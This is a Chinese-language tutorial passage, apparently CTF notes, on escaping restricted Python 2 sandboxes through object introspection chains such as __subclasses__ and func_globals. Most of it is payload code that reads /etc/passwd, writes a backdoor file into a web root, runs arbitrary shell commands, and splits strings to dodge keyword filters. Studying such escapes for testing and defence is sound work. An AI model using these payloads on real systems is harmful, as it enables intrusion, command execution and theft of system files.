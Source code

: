 ### object类基础函数

Python 允许多重继承，即一个子类有多个父类。`__mro__` 属性可以用来查看一个子类所有的父类；`__bases__` 可以获取上一层的继承关系：

```py
class A(object): pass
class B(object): pass
class C(A, B): pass

print C.__bases__
print C.__mro__
print 1..__class__.__bases__
print 1..__class__.__mro__
print ''.__class__.__bases__
print ''.__class__.__mro__
```

python 的 object 类中集成了很多的基础函数, 可以通过创建对象来引用.

寻找特殊模块的方法:`__class__`, 获得当前对象的类;`__bases__`, 列出其基类;`__mro__`, 列出解析方法的调用顺序(即类的继承关系);`__subclasses__()`, 返回子类列表;`__dict__`, 列出当前属性 / 函数的字典; `func_globals`, 返回一个包含函数全局变量的字典引用.

比如 `().__class__.__bases__[0].__subclasses__()[40]` 对应的是 file 类.在 open 等文件操作被限制的情况下可以用下面的方法读取文件内容（`__subclasses__` 即用来查看对象的所有子类；
```py
''.__class__.__mro__[-1].__subclasses__()[40]('/usr/lib/python2.7/os.py').read()
1..__class__.__bases__[0].__subclasses__()[40]('/usr/lib/python2.7/os.py').read()
```

其他的一些执行命令的方法（通过获取其他已经载入了 os 等模块的类进行调用）：
```py
# 执行系统命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].os.system('ls')
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").system("ls")')

# 重新载入__builtin__
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtin__['__import__']("os").system("ls")

# 读文件
().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()

# 写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/bkdoor', 'w').write('123')

# 执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /var/www/html").read()')

# 间接引用,python中原生的import是存在被引用的,只要找到相关对象引用就可以避开沙箱的限制.
print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('c'+'at flag')

# __globals__属性是函数特有的属性,记录当前文件全局变量的值,包括导入的模块.
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')
```
